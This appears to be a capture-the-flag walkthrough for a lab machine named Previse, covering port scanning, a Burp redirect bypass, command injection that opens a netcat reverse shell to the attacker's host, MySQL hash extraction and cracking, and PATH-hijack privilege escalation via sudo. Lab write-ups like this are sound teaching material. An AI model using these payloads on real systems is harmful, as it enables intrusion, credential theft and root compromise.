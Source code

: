 # PREVISE

### User Flag

```bash
[kali@kali ~]$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.104                                                                     
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we proceed to fuzz the webpage:

```bash
[kali@kali ~]$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.104:80/FUZZ -recursion -e .php -v -t 200
```

Many directories and files appear, but most of them return code 302. In other words, we need to log in so we can see them. However, we can bypass that by faking the response from the server and replacing the 302 status with a 200. We will do so by using burp. First, we configure our browser and set the proxy to 127.0.0.1 and port 8080 (so the traffic is redirected into burp). Then, we go into `Proxy` and click `Intercept is off` to intercept the traffic. In the browser, we go to http://10.10.11.104/accounts.php. When the `GET` request has been intercepted in burp, we have to click on `Action->Do intercept->Response to this request`. Then we click `Forward`, and now we can see the 302 response from the server. Now we need to fake it and replace `302 Found` by `200 OK` and click `Forward`. Now, in  the browser, we create a new account.

After we have logged into the webpage, we can go to http://10.10.11.104/files.php, where we will download a zip that contains a backup of the webpage. In the backup, we can read the php code that runs the page. We find an interesting file, `config.php` that seems to contain the user and password of the MySQL database. Since the MySQL port cannot be accessed from the outside (it did not appear in the nmap scan), this is useless at the moment. However, searching in the `logs.php` file, we find a possible vector attack:

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

Using the POST argument we can execute arbitrary code. We can exploit this vulnerability by creating a reverse shell. We listen in a given port with `nc`:

```bash
[kali@kali ~]$ nc -lnvvvp 4444
```

Then, we connect to the page (http://10.10.11.104/file_logs.php), intercept the traffic using burp, and click on the `SUBMIT` button. We intercept the POST message and append a netcat command to create a reverse shell:

```
delim=comma;nc our_vpn_ip 4444 -e /bin/bash
```

When we get the connection in our netcat, we can run the shell inside a python to get a better interface:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$
www-data@previse:/var/www/html$ cat /etc/passwd
```

Now that we are logged in with the `www-data` user, we can see that there is a user called `m4lwhere`. We can try to connect to the MySQL database using the previously discovered password:

```bash
www-data@previse:/var/www/html$ mysql -u root -p
mysql -u root -p
Enter password:
```

Inside the database we find a interesting table:

```sql
mysql> show databases;
...
use previse;
select * from accounts;
+----+---------------+------------------------------------+---------------------+
| id | username      | password                           | created_at          |
+----+---------------+------------------------------------+---------------------+
|  1 | m4lwhere      | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
+----+---------------+------------------------------------+--------------------
```

We assume that the `m4lwhere` user has the same password in the database as in the Linux user. Therefore, we proceed to crack the password via hashcat. We just store the password (containing the password and the salt) into a .txt file and use the rockyou wordlist to crack it. We use `-m 500` flag to use hashcat format 500 (see the [hashcat webpage](https://hashcat.net/wiki/doku.php?id=example_hashes) to see all the available formats).

```bash
[kali@kali ~]$ hashcat -m 500 hash.txt rockyou.txt
```

After we crack the password, we connect via ssh and get the user flag.

### Root flag

After some enumeration, we'll find that in /opt/scripts there is a promising file called `access_backup.sh`:

```bash
m4lwhere@previse:~$ ls -l /opt/scripts/access_backup.sh
-rwxr-xr-x 1 root root 486 Jun  6  2021 /opt/scripts/access_backup.sh
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

...

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

We can check that the user `m4lwhere` is able to run the script with sudo, so we can exploit this file and use PATH manipulation to do privilege escalation:

```bash
m4lwhere@previse:~$ mkdir test/ && cd test/
m4lwhere@previse:~/test$ nano gzip
/bin/cat /root/root.txt > /home/m4lwhere/root.txt
m4lwhere@previse:~/test$ cp gzip date
```

so the root user outputs the root flag to a file that can be read by our current user. Then, we run the script and set the PATH variable to the path where we stored the malicious scripts:

```bash
m4lwhere@previse:~/test$ PATH=/home/m4lwhere/test/ /usr/bin/sudo /opt/scripts/access_backup.sh
m4lwhere@previse:~/test$ cat /home/m4lwhere/root.txt
```
